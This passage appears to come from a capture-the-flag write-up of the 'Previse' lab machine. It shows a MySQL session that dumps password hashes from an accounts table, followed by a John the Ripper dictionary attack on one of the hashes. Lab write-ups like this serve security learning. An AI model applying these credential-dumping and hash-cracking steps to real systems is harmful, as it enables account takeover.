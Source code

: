 ```code
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
Next, we will explore the SQL server to find for sensitive information. Using the ```previse``` database and the ```accounts``` table, we are able to find the hashed password to another user ```m4lwhere```
```code
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse;
use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test1234 | $1$🧂llol$ViKHakYTr5z3ijwpwu4Ac. | 2021-08-13 07:55:12 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```

### Cracking hash
Now, we have obtained the hashed password to the user, we will save the hashed password to a file. For my case, I saved it to a file named ```password``` Afterwards, we will use ```John the Ripper``` to crack the hashed password. (NOTE: This might take some time!)
* --wordlist : Defines the password list you are going to use for a dictionary attack
* -format : Format of the hashed password
```code
┌──(kali㉿kali)-[~/Desktop]
└─$ john -format=md5crypt-long --wordlist=/home/kali/Desktop/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```